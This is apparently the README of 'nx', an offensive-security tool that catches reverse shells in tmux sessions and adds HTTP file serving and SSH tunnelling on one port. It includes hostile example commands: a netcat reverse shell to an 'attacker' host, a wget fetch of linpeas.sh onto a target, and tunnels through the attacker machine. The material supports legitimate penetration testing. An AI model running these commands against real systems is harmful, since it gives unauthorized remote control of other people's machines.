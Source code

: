 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

All-in-One:
- reverse shell
- http server
- port-forwarding-only ssh server

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Installation

### From source
```bash
git clone https://github.com/audibleblink/nx
cd nx
go build -o nx .
./nx --install-plugins  # Install bundled plugins
```

### Using go install
```bash
go install github.com/audibleblink/nx@latest
nx --install-plugins  # Install bundled plugins
```

The `--install-plugins` flag copies bundled plugins (like `auto.sh`) to `~/.config/nx/plugins/`. This only needs to be run once after installation.

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto           Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=          Execute plugin script on connection
      --install-plugins Install bundled plugins to config directory
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
  -s, --ssh-pass=  SSH password (empty = no auth)
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP and SSH tunneling on the same port as shell connections
- **SSH tunneling**: Support for local (-L) and remote (-R) port forwarding with optional password authentication
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux `send-keys` commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script

## Protocol Multiplexing

nx can serve files over HTTP, act as an HTTP proxy, and provide SSH tunneling on the same port as shell connections. This allows you to serve files, create SSH tunnels, provide internet to air-gapped machines, and catch shells over a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


## SSH Tunneling

nx supports SSH tunneling for port forwarding without providing shell access.

### SSH Usage Examples

```bash
# Start nx with SSH tunneling (no password)
nx -p 8443 -v

# Start nx with SSH password authentication
nx -p 8443 -s mypassword -v

# From client - Local port forwarding (-L)
ssh -L 8080:internal-server:80 -N user@attacker -p 8443

# From client - Remote port forwarding (-R)  
ssh -R 9090:localhost:22 -N user@attacker -p 8443
```


## How?

unix domain sockets mannn

## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [x] ~~super simple chisel-light functionality~~ ✅ **DONE**: SSH tunneling with local/remote port forwarding
- [x] facilitate installing plugins dir to xdg
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`
